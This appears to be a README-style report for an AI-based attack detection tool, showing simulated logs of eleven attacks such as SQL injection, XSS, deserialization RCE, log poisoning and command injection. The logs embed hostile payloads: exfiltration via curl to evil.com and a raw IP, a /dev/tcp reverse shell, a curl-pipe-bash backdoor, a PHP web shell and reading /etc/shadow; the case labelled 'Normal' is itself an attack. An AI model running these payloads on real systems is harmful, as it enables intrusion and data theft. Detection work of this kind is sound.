# 🔐 AI-Powered Cybersecurity Attack Detection Report

This report demonstrates detection of real-world, multi-stage cyber attacks using complex logs, code snippets, and forensic traces.

---

## 🧪 Case 1: SQL Injection (SQLI)

**Description:** Multi-stage SQL injection with WAF bypass, UNION extraction, timing attack, and data exfiltration.

**Input Data:**

[2026-04-03 15:44:58] INFO: Incoming Request /api/v4/reporting/export?filter=user_id=99' OR '1'='1'--
[2026-04-03 15:44:59] DEBUG: Suspicious input detected (tokens: OR, 1=1, --, ')

[2026-04-03 15:45:02] TRACE: Query:
SELECT * FROM reports WHERE user_id=99' OR '1'='1'--  AND status='active'

[2026-04-03 15:45:03] WARN: Result size anomaly (expected < 500 rows, got 120,384)

--- Attacker escalates (UNION-based SQLi) ---
[2026-04-03 15:45:06] TRACE:
SELECT * FROM reports WHERE user_id=99'
UNION SELECT NULL,username,password,NULL,NULL FROM users--

[2026-04-03 15:45:09] CRITICAL: Sensitive data exposure (usernames, password hashes)

--- Destructive payload (stacked queries) ---
[2026-04-03 15:45:11] TRACE:
SELECT * FROM reports WHERE user_id=99';
DROP TABLE users;--

[2026-04-03 15:45:14] ALERT: Stacked query execution detected (DROP TABLE)

--- Timing-based blind SQLi ---
[2026-04-03 15:45:16] TRACE:
SELECT * FROM reports WHERE user_id=99' AND 1=pg_sleep(5)--

[2026-04-03 15:45:22] ALERT: Query latency spike (5.02s → injection confirmed)

--- Command execution & exfiltration ---
[2026-04-03 15:45:25] TRACE:
SELECT * FROM reports WHERE user_id=99';
COPY users TO PROGRAM 'curl http://185.234.11.9/exfil'--

[2026-04-03 15:45:27] CRITICAL: Arbitrary command execution via SQL Injection

[2026-04-03 15:45:30] NETWORK: Outbound anomaly → 4.2GB transfer to 185.234.11.9 (HTTP)

**System Output:**



---

## 🧪 Case 2: XSS

**Description:** DOM + stored XSS for cookie/token exfiltration.

**Input Data:**

[2026-04-03 16:10:12] INFO: Incoming Request (profile update user_id=884)

[2026-04-03 16:10:13] DEBUG: User-supplied payload stored

[2026-04-03 16:10:14] WARN: No input sanitization (persistent storage sink)

--- Stored XSS Trigger Phase ---
[2026-04-03 16:10:18] TRACE: Fetching profile content from database
[2026-04-03 16:10:19] TRACE: Injecting content into DOM via innerHTML

[2026-04-03 16:10:20] ALERT: Unsafe DOM sink (innerHTML with user-controlled input)

--- Exploitation Phase ---
[2026-04-03 16:10:21] TRACE: Image load failure triggers onerror handler
[2026-04-03 16:10:21] TRACE: Inline script execution confirmed

[2026-04-03 16:10:22] CRITICAL: Access to document.cookie detected
[2026-04-03 16:10:22] CRITICAL: Session data exposure / hijacking risk

--- Impact ---
[2026-04-03 16:10:23] ANOMALY: Arbitrary JavaScript execution in client browser
[2026-04-03 16:10:23] THREAT: Stored Cross-Site Scripting (XSS)

--- Risk Assessment ---
Severity: HIGH
Exploit Type: Persistent XSS
Attack Surface: Any user viewing the profile page

[2026-04-03 16:10:24] CONFIDENCE: 99.07%

**System Output:**



---

## 🧪 Case 3: RCE

**Description:** Deserialization → reverse shell → persistence.

**Input Data:**
[2026-04-03 16:20:00] INFO: Incoming Request POST /services/MessageBroker

[2026-04-03 16:20:02] DEBUG: Deserialization initiated (Base64 payload detected)

--- Exploitation Phase (Deserialization Attack) ---
[2026-04-03 16:20:05] ALERT: Malicious gadget chain detected
Chain: BadAttributeValueExpException → TiedMapEntry → LazyMap

[2026-04-03 16:20:08] CRITICAL: Runtime execution invoked
java.lang.Runtime.getRuntime().exec()

[2026-04-03 16:20:08] TRACE: Command execution:
bash -c "bash -i >& /dev/tcp/185.44.22.1/4444 0>&1"

--- Reverse Shell Established ---
[2026-04-03 16:20:15] ALERT: Outbound reverse shell connection established (185.44.22.1:4444)

[2026-04-03 16:20:20] CRITICAL: OS command execution confirmed
[TRACE] exec("/bin/sh")
[TRACE] bash process spawned

--- Post-Exploitation ---
[2026-04-03 16:20:30] ALERT: Persistence mechanism created
echo "* * * * * /tmp/.x/agent" >> /var/spool/cron/root

[2026-04-03 16:20:40] CRITICAL: Sensitive file access detected
cat /etc/shadow

[2026-04-03 16:20:55] ALERT: Lateral movement attempt
ssh root@10.0.0.12

**System Output:**



---

## 🧪 Case 4: Buffer Overflow

**Input Data:**
[2026-04-03 16:30:00] INFO: Processing metadata chunk

[2026-04-03 16:30:01] DEBUG: Input received (size: 16 bytes)

[2026-04-03 16:30:02] WARN: Boundary check flaw detected (off-by-one condition)

--- Vulnerability Trigger ---
[2026-04-03 16:30:03] TRACE: Copying buffer into fixed-size stack array (header_tag[16])
[2026-04-03 16:30:03] ALERT: Buffer overflow condition triggered (null byte write out-of-bounds)

[2026-04-03 16:30:04] CRITICAL: Stack memory corruption detected
[TRACE] Saved EBP overwritten

--- Exploitation Phase ---
[2026-04-03 16:30:05] TRACE: Malicious payload structure detected
[payload] = [padding][fake EBP][ROP chain][shellcode]

[2026-04-03 16:30:06] CRITICAL: Instruction pointer (EIP) control achieved

[2026-04-03 16:30:07] TRACE: ROP chain execution initiated

**System Output:**



---

## 🧪 Case 5: DoS

[2026-04-03 16:40:00] ALERT: Incoming traffic anomaly detected (HTTP/2)

[2026-04-03 16:40:01] DEBUG: Traffic statistics
RST_STREAM frames: 60,000/sec
Concurrent streams per connection: 5,000

--- Detection Phase ---
[2026-04-03 16:40:02] TRACE: Abnormal HTTP/2 stream reset behavior observed
[2026-04-03 16:40:02] TRACE: High frequency of incomplete requests
[2026-04-03 16:40:03] TRACE: Repeated connection open/reset cycles

--- Attack Pattern ---
[2026-04-03 16:40:04] TRACE: Rapid request bursts without response completion
[2026-04-03 16:40:04] TRACE: Multiple clients with synchronized request timing

--- Protocol Exploitation ---
[2026-04-03 16:40:05] ALERT: Excessive RST_STREAM frame usage detected
[2026-04-03 16:40:05] TRACE: HTTP/2 state cleanup overhead increasing

--- Impact ---
[2026-04-03 16:40:06] WARN: Request queue length increasing abnormally
[2026-04-03 16:40:06] WARN: Upstream service throughput degraded

--- Threat Classification ---
[2026-04-03 16:40:07] THREAT: HTTP/2 Rapid Reset Attack 
[2026-04-03 16:40:07] ANOMALY: Protocol-level abuse without payload execution

**System Output:**


---

---

## 🧪 Case 6: Path Traversal + LFI

[2026-04-03 16:50:00] INFO: Incoming Request GET /view_logs.php?file=../../../../var/log/apache2/access.log

[2026-04-03 16:50:01] ALERT: Path traversal attempt detected (../ sequences)
[2026-04-03 16:50:01] TRACE: Directory escape confirmed

--- Injection Phase ---
[2026-04-03 16:50:02] TRACE: Malicious payload injected via User-Agent header
<?php system($_GET['cmd']); ?>

[2026-04-03 16:50:03] WARN: Payload written to server log file (log poisoning)

--- Exploitation Phase ---
[2026-04-03 16:50:05] INFO: Incoming Request GET /view_logs.php?file=...&cmd=whoami

[2026-04-03 16:50:06] TRACE: Local File Inclusion triggered (including poisoned log)
[2026-04-03 16:50:06] CRITICAL: Execution of injected PHP code confirmed

[2026-04-03 16:50:07] RESULT: Command output → www-data

**System Output:**


---

## 🧪 Case 7: Auth Bypass

[2026-04-03 17:00:00] INFO: Incoming Authentication Request (user_id=884)

[2026-04-03 17:00:01] DEBUG: Primary credential verification successful (password)

--- Authentication Flow ---
[2026-04-03 17:00:02] WARN: MFA challenge not completed

[2026-04-03 17:00:03] ALERT: Session issued before MFA validation
[2026-04-03 17:00:03] TRACE: Session ID reused post-login

--- Bypass Detection ---
[2026-04-03 17:00:04] CRITICAL: Access granted with single-factor authentication
[2026-04-03 17:00:04] TRACE: Second-factor authentication step skipped

[2026-04-03 17:00:05] ALERT: Protected resource accessed without MFA completion
[2026-04-03 17:00:05] TRACE: Authentication flow marked valid despite incomplete sequence

--- Impact ---
[2026-04-03 17:00:06] ANOMALY: MFA bypass detected
[2026-04-03 17:00:06] THREAT: Authentication flow violation

**System Output:**



---

## 🧪 Case 8: CSRF

[2026-04-03 17:10:00] INFO: Admin user session active

[2026-04-03 17:10:01] INFO: Admin visited external (malicious) site

--- Attack Delivery ---
[2026-04-03 17:10:02] TRACE: Cross-site request initiated via crafted form
<form action="https://bank.com/api/admin/create-user" method="POST">
<input name="role" value="ADMIN">
</form>

[2026-04-03 17:10:03] TRACE: Background request triggered via JavaScript

--- Exploitation Phase ---
[2026-04-03 17:10:04] ALERT: Missing CSRF token validation
[2026-04-03 17:10:04] TRACE: Authenticated session cookies automatically included

[2026-04-03 17:10:05] CRITICAL: State-changing requests executed without user consent

--- Impact ---
[2026-04-03 17:10:06] ACTION: Admin account created (role=ADMIN)
[2026-04-03 17:10:06] ACTION: Two-factor authentication disabled

[2026-04-03 17:10:07] ANOMALY: Unauthorized privileged operations performed

**System Output:**



---

## 🧪 Case 9: Command Injection

[2026-04-03 17:20:00] INFO: Incoming Request (filename parameter received)

[2026-04-03 17:20:01] DEBUG: User input captured
filename=report.pdf; curl http://evil.com/`whoami`

--- Vulnerability Trigger ---
[2026-04-03 17:20:02] WARN: Unsanitized user input used in system command construction
[2026-04-03 17:20:02] TRACE: Command template:
"/usr/bin/python3 generate_pdf.py --output " + filename

[2026-04-03 17:20:03] ALERT: Shell interpreter invoked for command execution

--- Exploitation Phase ---
[2026-04-03 17:20:04] TRACE: Final command executed:
/usr/bin/python3 generate_pdf.py --output report.pdf; curl http://evil.com/`whoami`

[2026-04-03 17:20:05] CRITICAL: Command chaining detected using ';'
[2026-04-03 17:20:05] TRACE: Command substitution executed (`whoami`)

[2026-04-03 17:20:06] TRACE: Primary command executed (generate_pdf.py)
[2026-04-03 17:20:06] CRITICAL: Injected command executed (curl to external server)

--- Out-of-Band Interaction ---
[2026-04-03 17:20:07] ALERT: External request triggered from server environment
[2026-04-03 17:20:07] TRACE: Data exfiltration via HTTP request

--- Persistence Attempt ---
[2026-04-03 17:20:08] TRACE: Secondary payload detected
report.pdf; curl http://evil.com/backdoor.sh | bash

[2026-04-03 17:20:09] CRITICAL: Remote script fetched and executed via shell pipe

--- Impact ---
[2026-04-03 17:20:10] ANOMALY: Arbitrary command execution via user input
[2026-04-03 17:20:10] THREAT: OS Command Injection

**System Output:**


---

## 🧪 Case 10: Info Disclosure

[2026-04-03 17:30:00] INFO: Cloud configuration change detected (PutBucketPolicy)

[2026-04-03 17:30:01] DEBUG: Bucket policy update successful
Principal: *
Effect: Allow

[2026-04-03 17:30:02] CRITICAL: Public S3 bucket exposure detected

--- Exposure Phase ---
[2026-04-03 17:30:03] TRACE: Information disclosure via misconfigured access policy

[2026-04-03 17:30:04] TRACE: Unauthorized file access observed
GET salary_2026.xlsx
GET client_pii.db

[2026-04-03 17:30:05] CRITICAL: Sensitive data accessible without authentication

--- Discovery & Indexing ---
[2026-04-03 17:30:06] TRACE: Search engine indexing activity detected
[2026-04-03 17:30:06] ALERT: Public exposure confirmed

--- Impact ---
[2026-04-03 17:30:07] ANOMALY: Unrestricted public access to confidential data
[2026-04-03 17:30:07] THREAT: Cloud Storage Misconfiguration → Information Disclosure

**System Output:**



## 🧪 Case 11: Normal

[2026-04-03 17:50:00] INFO: Incoming Request (filename parameter received)

[2026-04-03 17:50:01] DEBUG: Raw user input
filename=report.pdf; curl -X POST http://evil.com/exfiltrate -d "user=$(whoami)&host=$(hostname)"

--- Vulnerable Code Path ---
[2026-04-03 17:50:02] TRACE: Backend code constructing system command
Code:
"/usr/bin/python3 generate_pdf.py --output " + filename

[2026-04-03 17:50:03] ALERT: User input directly concatenated into shell command

--- Injection Indicators ---
[2026-04-03 17:50:04] TRACE: Command separator detected (';')
[2026-04-03 17:50:04] TRACE: Shell expansion detected ($( ))
[2026-04-03 17:50:04] TRACE: Input escaping intended command context

--- Execution Phase ---
[2026-04-03 17:50:05] TRACE: Final command executed:
/usr/bin/python3 generate_pdf.py --output report.pdf; curl -X POST http://evil.com/exfiltrate -d "user=$(whoami)&host=$(hostname)"

[2026-04-03 17:50:06] TRACE: Primary command executed (generate_pdf.py)

[2026-04-03 17:50:07] CRITICAL: Injected command executed
[TRACE] whoami → system user resolved
[TRACE] hostname → system hostname resolved

--- Data Exfiltration ---
[2026-04-03 17:50:08] ALERT: Out-of-band HTTP POST request detected
Destination: http://evil.com/exfiltrate
Payload: user=<system_user>&host=<hostname>

[2026-04-03 17:50:09] ALERT: DNS beaconing detected
Query: root.attacker.evil.com

--- Persistence & Remote Execution ---
[2026-04-03 17:50:10] TRACE: Secondary payload execution detected
curl http://evil.com/backdoor.sh | bash

[2026-04-03 17:50:11] CRITICAL: Remote script fetched and executed
[TRACE] Backdoor installation attempt observed

--- Impact ---
[2026-04-03 17:50:12] ANOMALY: Arbitrary OS command execution via user input
[2026-04-03 17:50:12] ANOMALY: Multiple chained commands executed

**System Output:**

